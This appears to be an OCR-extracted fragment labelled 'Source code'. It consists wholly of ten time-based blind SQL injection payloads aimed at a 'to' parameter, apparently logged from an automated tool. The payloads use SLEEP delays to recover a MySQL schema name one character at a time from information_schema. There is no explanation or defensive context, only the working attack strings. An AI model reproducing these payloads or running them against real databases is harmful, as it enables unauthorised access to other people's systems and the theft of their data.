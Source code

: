 {to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,17,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=109,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,18,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
